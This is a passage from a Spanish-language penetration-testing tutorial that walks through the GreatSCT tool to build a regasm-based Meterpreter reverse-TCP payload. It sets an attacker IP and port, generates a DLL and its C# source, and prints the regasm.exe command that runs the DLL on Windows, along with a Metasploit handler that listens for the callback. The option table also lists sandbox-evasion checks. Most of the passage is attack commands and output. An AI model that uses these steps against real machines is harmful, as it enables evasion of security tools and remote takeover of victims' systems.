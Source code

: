 ```
DOMAIN                  X               Optional: Required internal domain
EXPIRE_PAYLOAD          X               Optional: Payloads expire after "Y" days
HOSTNAME                X               Optional: Required system hostname
INJECT_METHOD           Heap            Virtual or Heap
LHOST                                   IP of the Metasploit handler
LPORT                   4444            Port of the Metasploit handler
PROCESSORS              X               Optional: Minimum number of processors
SLEEP                   X               Optional: Sleep "Y" seconds, check if accelerated
TIMEZONE                X               Optional: Check to validate not in UTC
USERNAME                X               Optional: The required user account

 Available Commands:

        back            Go back
        exit            Completely exit GreatSCT
        generate        Generate the payload
        options         Show the shellcode's options
        set             Set shellcode option

[regasm/meterpreter/rev_tcp>>]
```

Y como veremos es una interfaz parecida a la de `metasploit` en la que podremos configurar el `payload` a nuestras necesidades.

```shell
set lhost 192.168.5.205
set lport 7777
generate
<ENTER>
```

Info:

```
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: regasm
 [*] Payload Module: regasm/meterpreter/rev_tcp
 [*] DLL written to: /usr/share/greatsct-output/compiled/payload.dll
 [*] Source code written to: /usr/share/greatsct-output/source/payload.cs
 [*] Execute with: C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U payload.dll
 [*] Metasploit RC file written to: /usr/share/greatsct-output/handlers/payload.rc

Please press enter to continue >:
```

Aqui nos dice la informacion de como se va a formar ese `payload` y que tendremos que configurar, en la parte de `DLL written to` nos comenta que esta `.dll` la tendremos que mover a `Windows`, despues `Source code written to` aqui nos dice que tendremos que ejecutar esto para que funcione y por ultimo en esta parte `Metasploit RC file written to` nos comenta que tenemos un `handler` en `metasploit` configurado para ejecutar y estar a la escucha de forma automatica, por lo que haremos lo siguiente en otra terminal.
